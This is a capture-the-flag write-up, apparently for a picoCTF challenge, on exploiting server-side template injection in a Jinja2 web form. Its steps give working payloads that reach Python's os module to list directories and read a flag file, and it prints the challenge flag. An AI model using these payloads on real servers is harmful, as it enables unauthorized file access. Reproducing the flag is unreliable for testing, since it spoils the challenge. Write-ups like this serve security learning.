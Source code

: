 # 🧠 SSTI1 – Server-Side Template Injection

## 🧩 Challenge Description

A web form takes user input and reflects it back into the page.  
Suspicion: the server uses a vulnerable template engine (e.g. Jinja2).  
Objective: exploit the SSTI to retrieve a flag stored in the server filesystem.

---

## 🛠️ Tools Used

- Browser (Firefox/Chrome)
- Jinja2 SSTI payloads
- [PayloadAllTheThings – SSTI Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Injection/README.md)

---

## 🧪 Exploitation Steps

### 🧪 Step 1 – Confirm SSTI

Entered:
```
{{2*3}}
```
✅ Confirms that template expressions are evaluated → SSTI vulnerability exists.  
![Step 1 – SSTI Reflection](../screenshots/ssti1-reflection.png)

---

### 🗂 Step 2 – List Root Directory

Payload:
```
{{config.__class__.__init__.__globals__['__builtins__']['__import__']('os').listdir('/')}}
```
✅ Identified a suspicious directory.  
![Step 2 – List Root](../screenshots/ssti1-root-dir.png)

---

### 📂 Step 3 – Explore `/challenge/` Directory

Payload:
```
{{config.__class__.__init__.__globals__['__builtins__']['__import__']('os').listdir('/challenge')}}
```
🎯 Located the `flag` file.  
![Step 3 – Challenge Folder](../screenshots/ssti1-challenge-dir.png)

---

### 🏁 Step 4 – Read the Flag File

Payload:
```
{{config.__class__.__init__.__globals__['__builtins__']['open']('/challenge/flag').read()}}
```
📥 Extracted the flag.  
![Step 4 – Flag Found](../screenshots/ssti1-flag-read.png)

---

## 🏁 Flag

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_3066c7bd}
```

---

✅ This challenge highlights the risk of rendering unescaped user input using server-side template engines like Jinja2.
